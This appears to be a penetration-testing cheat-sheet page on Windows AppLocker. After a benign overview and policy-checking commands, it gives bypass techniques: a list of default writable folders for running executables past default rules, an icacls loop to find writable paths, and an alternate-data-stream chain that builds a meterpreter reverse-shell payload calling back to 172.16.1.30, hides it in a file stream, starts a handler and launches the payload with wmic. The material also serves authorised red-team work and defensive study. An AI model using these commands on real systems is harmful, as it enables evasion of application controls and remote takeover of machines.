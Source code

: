 # AppLocker

## Brief

{% hint style="info" %}
**AppLocker** can help you :

* Define **rules** based on file attributes that persist across app updates, such as the publisher name (derived from the digital signature), product name, file name, and file version. You can also create rules based on the file path and hash.
* Assign a rule to a security group or an individual user.
* Create **exceptions** to rules. For example, you can create a rule that allows all users to run all Windows binaries, except the Registry Editor (regedit.exe).
* Use audit-only mode to deploy the policy and understand its impact before enforcing it.
* Create rules on a staging server, test them, then export them to your production environment and import them into a Group Policy Object.
* Simplify creating and managing AppLocker rules by using Windows PowerShell.
{% endhint %}

## Check

```powershell
# check if it is running
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

# check which files/extensions are blacklisted/whitelisted:
Get-ApplockerPolicy -Effective -xml

$a = Get-ApplockerPolicy -effective
$a.rulecollections
```

## ByPass

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: _C:\Windows\System32\spool\drivers\color_ - Whitelisted by default.

{% embed url="https://github.com/api0cradle/UltimateAppLockerByPassList" %}
Check this
{% endembed %}

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: _C:\Windows\System32\spool\drivers\color_ - Whitelisted by default.

```powershell
# confirm if applocker is running
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### Default writeable folders

```
C:\Windows\Tasks
C:\Windows\Temp
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

```powershell
# copy the writeable folder into icalcs.txt ; then get permissions :
for /F %A in (C:\temp\icacls.txt) do ( cmd.exe /c icacls "%~A" 2>nul | findstr /i "(F) (M) (W) (R,W) (RX,WD) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. ) 

# copy the executable into writeable folder and execute it
# enjoy! 
```

### Alternate Data Stream

> Another technique that can be used to bypass AppLocker is by embedding an executable into another file (alternate data stream) and then executing the EXE from the ADS.

```powershell
# find which program we have write permissions :
icacls "C:\Program Files\Program\*"

# create payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f exe -o meterpreter64.exe

# embed the payload into the file we have permissions ; here is log.txt
type C:\temp\meterpreter64.exe > "C:\Program Files\Program\log.txt:meterpreter64.exe"

# catch the meterpreter 
msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 172.16.1.30;set LPORT 443;exploit;"

# execute it 
wmic process call create '"C:\Program Files\Program\log.txt:meterpreter64.exe"'

# meterpreter !
```
